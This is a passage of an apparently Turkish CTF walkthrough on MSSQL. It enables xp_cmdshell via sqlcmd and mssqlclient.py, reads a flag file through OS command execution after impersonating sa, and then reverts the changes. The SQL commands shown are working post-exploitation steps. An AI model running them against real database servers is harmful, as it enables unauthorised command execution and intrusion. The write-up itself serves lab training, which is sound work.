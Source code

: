 `xp_cmdshell` etkinleştirildikten sonra, `C:\flag.txt.txt` dosyasını okuyalım:

```sql
1> EXEC xp_cmdshell 'type C:\flag.txt.txt';
2> GO
```
Bu komutun çıktısı, CTF bayrağını gösterecektir.

### 5.2. `mssqlclient.py` ile `xp_cmdshell`

`mssqlclient.py`'nin `xp_cmdshell`'i etkinleştirmek ve kullanmak için yerleşik komutları vardır, bu da işleri kolaylaştırır.

`xp_cmdshell`'i etkinleştirme:
```sql
SQL> enable_xp_cmdshell
```
Bu komut, arka planda gerekli `sp_configure` adımlarını çalıştırır. Alternatif olarak, `sqlcmd` bölümündeki `sp_configure` komutlarını manuel olarak da çalıştırabilirsiniz.

`xp_cmdshell` ile komut çalıştırma (`C:\flag.txt.txt` dosyasını okuma):
```sql
SQL> xp_cmdshell "type C:\flag.txt.txt"
```
Bu komutun çıktısı doğrudan terminale yansıyacak ve bayrağı içerecektir.

**Örnek Çıktı (Flag):**
```
CTF{MSSQL_1MP3RS0NATI0N_PWNED!}
```

## 6. Temizlik (Opsiyonel ama Önemli)

İşimiz bittikten sonra, yaptığımız değişiklikleri geri almak iyi bir pratiktir.

### 6.1. `sqlcmd` ile Temizlik

`sa` kimliğinden çıkış:
```sql
1> REVERT;
2> GO
```

`xp_cmdshell`'i tekrar devre dışı bırakma:
```sql
1> EXEC sp_configure 'xp_cmdshell', 0;
2> RECONFIGURE;
3> GO
1> EXEC sp_configure 'show advanced options', 0;
2> RECONFIGURE;
3> GO
```
Ve MSSQL bağlantısını sonlandırma:
```sql
1> exit
```
